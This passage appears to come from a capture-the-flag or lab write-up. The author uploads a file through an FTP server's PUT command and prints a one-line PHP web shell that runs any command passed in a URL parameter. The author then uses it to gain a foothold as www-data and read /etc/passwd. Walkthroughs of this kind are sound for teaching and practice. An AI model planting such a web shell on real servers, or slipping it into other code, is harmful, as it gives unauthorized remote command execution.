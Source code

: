 After testing some things in the FTP server, I realized that I had the ability to use the PUT command. Since this seemed to be the code for the site, I put a test file to see if I could access it from my browser.

```php
<?php

$var=$_GET['var'];
system($var);

?>
```

## Initial Foothold

![](../../.gitbook/assets/7-code-exec.png)

Using this I was able to identify that I was running in the context of `www-data`.

![](../../.gitbook/assets/7-etc-passwd.png)

, and that there were three users that could log into the machine: low, developer, and root
